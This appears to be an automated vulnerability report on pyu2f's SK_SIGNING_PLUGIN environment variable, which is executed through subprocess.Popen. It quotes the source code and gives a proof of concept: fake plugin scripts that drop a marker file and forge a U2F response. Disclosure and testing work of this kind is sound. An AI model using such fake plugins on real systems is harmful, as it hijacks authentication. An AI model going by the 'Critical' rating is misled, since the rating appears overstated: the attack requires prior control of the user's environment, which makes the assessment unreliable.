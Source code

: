 ### Combined Vulnerability List

- Vulnerability Name: Arbitrary Command Execution via SK_SIGNING_PLUGIN Environment Variable
  - Description:
    1. The `pyu2f` library allows users to configure an external signing plugin by setting the `SK_SIGNING_PLUGIN` environment variable.
    2. When the `Authenticate` method of `CustomAuthenticator` is called, it retrieves the value of the `SK_SIGNING_PLUGIN` environment variable.
    3. This value, which is expected to be a path to a signing plugin executable, is directly passed to `subprocess.Popen` without any sanitization or validation.
    4. An attacker can trick a user or system into setting the `SK_SIGNING_PLUGIN` environment variable to point to a malicious script or executable.
    5. When `pyu2f`'s `Authenticate` function is triggered, it will execute the attacker-controlled script using `subprocess.Popen`.
    6. This allows the attacker to execute arbitrary commands on the system where `pyu2f` is running, with the privileges of the user running the `pyu2f` application.
  - Impact:
    - Arbitrary code execution on the host system.
    - Complete compromise of the security intended by U2F, as the attacker can control the signing process and forge authentication responses.
    - Potential data exfiltration, system manipulation, or further attacks depending on the malicious script.
  - Vulnerability Rank: Critical
  - Currently Implemented Mitigations: None. The code directly uses the environment variable without any checks.
  - Missing Mitigations:
    - Input validation and sanitization for the `SK_SIGNING_PLUGIN` environment variable.
    - Restriction of allowed plugin paths to a predefined safe directory or list.
    - Warning to users about the security implications of using external signing plugins and setting the `SK_SIGNING_PLUGIN` environment variable.
    - Documentation clearly stating the risks associated with using external signing plugins and recommending against it unless strictly necessary and with extreme caution.
  - Preconditions:
    - The `pyu2f` library must be used with the convenience layer that utilizes `CustomAuthenticator` (directly or via `CompositeAuthenticator`).
    - The attacker must have a way to influence the environment variables where the `pyu2f` application is executed, specifically to set the `SK_SIGNING_PLUGIN` variable. This could be achieved through local access, social engineering, or vulnerabilities in systems that configure the environment for the `pyu2f` application.
  - Source Code Analysis:
    - File: `/code/pyu2f/convenience/customauthenticator.py`
    - Function: `CustomAuthenticator.Authenticate`
    ```python
    def Authenticate(self, app_id, challenge_data,
                     print_callback=sys.stderr.write):
        """See base class."""

        # Ensure environment variable is present
        plugin_cmd = os.environ.get(SK_SIGNING_PLUGIN_ENV_VAR) # [POINT OF VULNERABILITY] - Retrieves environment variable without validation
        if plugin_cmd is None:
          raise errors.PluginError('{} env var is not set'
                                   .format(SK_SIGNING_PLUGIN_ENV_VAR))

        # Prepare input to signer
        client_data_map, signing_input = self._BuildPluginRequest(
            app_id, challenge_data, self.origin)

        # Call plugin
        print_callback('Please insert and touch your security key\n')
        response = self._CallPlugin([plugin_cmd], signing_input) # [POINT OF VULNERABILITY] - Executes command from environment variable


        # Handle response
        key_challenge_pair = (response['keyHandle'], response['challengeHash'])
        client_data_json = client_data_map[key_challenge_pair]
        client_data = client_data_json.encode()
        return self._BuildAuthenticatorResponse(app_id, client_data, response)

    def _CallPlugin(self, cmd, input_json):
        """Calls the plugin and validates the response."""
        # Calculate length of input
        input_length = len(input_json)
        length_bytes_le = struct.pack('<I', input_length)
        request = length_bytes_le + input_json.encode()

        # Call plugin
        sign_process = subprocess.Popen(cmd, # [POINT OF VULNERABILITY] - `cmd` is directly from environment variable
                                        stdin=subprocess.PIPE,
                                        stdout=subprocess.PIPE)

        stdout = sign_process.communicate(request)[0]
        exit_status = sign_process.wait()
        # ... rest of the function handles the response
    ```

    **Visualization:**

    ```
    Environment Variable (SK_SIGNING_PLUGIN) --> CustomAuthenticator.Authenticate --> _CallPlugin --> subprocess.Popen --> Command Execution
    ```

    The code directly retrieves the value of the `SK_SIGNING_PLUGIN` environment variable using `os.environ.get()` and passes it as the command `cmd` to `subprocess.Popen()`. No checks are performed to validate that `plugin_cmd` is a safe executable path, allowing for arbitrary command injection if the environment variable is attacker-controlled.

  - Security Test Case:
    1. **Prepare a malicious script:** Create a simple Python script named `malicious_script.py` (or `malicious_plugin.sh` for shell script example) that will be used as the malicious plugin. This script will simply create a file named `pwned.txt` in the `/tmp` directory to indicate successful command execution and output a fake valid U2F response.

    **Python malicious script (`malicious_script.py`):**
    ```python
    #!/usr/bin/env python3
    import sys
    import os

    if __name__ == "__main__":
        with open("/tmp/pwned.txt", "w") as f:
            f.write("You have been PWNED by pyu2f plugin vulnerability!")
        print('{"type": "sign_helper_reply", "code": 0, "errorDetail": "", "responseData": {"appIdHash": "test", "challengeHash": "test", "keyHandle": "test", "version": "U2F_V2", "signatureData": "test"}}')
    ```

    **Shell malicious script (`malicious_plugin.sh`):**
    ```bash
    #!/bin/bash
    touch /tmp/pwned_by_pyu2f
    echo '{"type": "sign_helper_reply", "code": 0, "errorDetail": "", "responseData": {"appIdHash": "test", "challengeHash": "test", "keyHandle": "test", "version": "U2F_V2", "signatureData": "test"}}'
    ```

    2. **Make the script executable:**
    ```bash
    chmod +x malicious_script.py  # or chmod +x malicious_plugin.sh
    ```

    3. **Set the SK_SIGNING_PLUGIN environment variable:** Before running any `pyu2f` code that triggers authentication, set the `SK_SIGNING_PLUGIN` environment variable to the absolute path of the malicious script.

    ```bash
    export SK_SIGNING_PLUGIN="/path/to/malicious_script.py" # or export SK_SIGNING_PLUGIN="/path/to/malicious_plugin.sh" - Replace with the actual path
    ```

    4. **Run pyu2f authentication:** Execute a Python script that uses `pyu2f` to perform authentication using the convenience layer. This will trigger the `CustomAuthenticator` and consequently execute the script pointed to by `SK_SIGNING_PLUGIN`. A minimal example to trigger the vulnerability would involve instantiating `CompositeAuthenticator` and calling `Authenticate`.

    ```python
    import os
    from pyu2f.convenience import authenticator
    from pyu2f import errors
    import base64
    from pyu2f import model

    origin = "http://example.com"
    app_id = "http://example.com"
    challenge_data = [{'key': model.RegisteredKey(base64.urlsafe_b64decode('test_key_handle==')), 'challenge': b'test_challenge'}]

    try:
        api = authenticator.CreateCompositeAuthenticator(origin)
        response = api.Authenticate(app_id, challenge_data)
        print("Authentication successful (this should not happen in a real exploit test if the malicious script doesn't properly mimic a plugin):", response)
    except errors.PluginError as e:
        print(f"Plugin Error: {e}")
    except Exception as e:
        print(f"An unexpected error occurred: {e}")
    ```

    5. **Check for successful exploitation:** After running the Python script, check if the `/tmp/pwned.txt` (or `/tmp/pwned_by_pyu2f` for shell script example) file has been created. If it exists, it confirms that the malicious script was executed, and the arbitrary command execution vulnerability is valid.

    ```bash
    ls /tmp/pwned.txt # or ls /tmp/pwned_by_pyu2f
    cat /tmp/pwned.txt # or cat /tmp/pwned_by_pyu2f
    ```

    If `pwned.txt` (or `pwned_by_pyu2f`) exists and contains the expected message, the vulnerability is confirmed. Furthermore, the Python script execution should not raise any errors, indicating that the malicious plugin successfully faked a U2F response, thus bypassing authentication.